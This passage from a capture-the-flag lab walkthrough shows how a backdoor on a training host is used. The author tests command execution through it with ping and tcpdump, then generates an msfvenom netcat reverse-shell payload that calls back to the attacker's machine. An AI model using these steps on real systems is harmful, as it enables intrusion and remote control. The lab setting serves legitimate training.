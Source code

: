 Great! It's an open telnet connection! What welcome message do we receive?
- **SKIDY'S BACKDOOR.**

Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N).
```bash
$ telnet 10.10.230.252 8012  
Trying 10.10.230.252...
Connected to 10.10.230.252.
Escape character is '^]'.
SKIDY'S BACKDOOR. Type .HELP to view commands
.HELP
.HELP: View commands
 .RUN <command>: Execute commands
.EXIT: Exit
.RUN ls
```
The answer is **N**o.

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. Run this tcpdump listener that spesifically listening for ICMP traffic.
```bash
$ sudo tcpdump ip proto \\icmp -i tun0
```

Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
```bash
# run the command
$ telnet 10.10.230.252 8012 
Trying 10.10.230.252...
Connected to 10.10.230.252.
.RUN ping 10.11.25.205 -c

# tcpdump output
$ sudo tcpdump ip proto \\icmp -i tun0
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
23:35:38.242194 IP 10.10.230.252 > 10.11.25.205: ICMP echo request, id 1250, seq 1, length 64
23:35:38.242216 IP 10.11.25.205 > 10.10.230.252: ICMP echo reply, id 1250, seq 1, length 64
23:35:39.243159 IP 10.10.230.252 > 10.11.25.205: ICMP echo request, id 1250, seq 2, length 64
23:35:39.243172 IP 10.11.25.205 > 10.10.230.252: ICMP echo reply, id 1250, seq 2, length 64
```
The answer is **Y**es. Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
 
We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
```bash
$ msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

# -p = payload
# lhost = our local host IP address (this is your machine's IP address)
# lport = the port to listen on (this is the port on your machine)
# R = export the payload in raw format
```
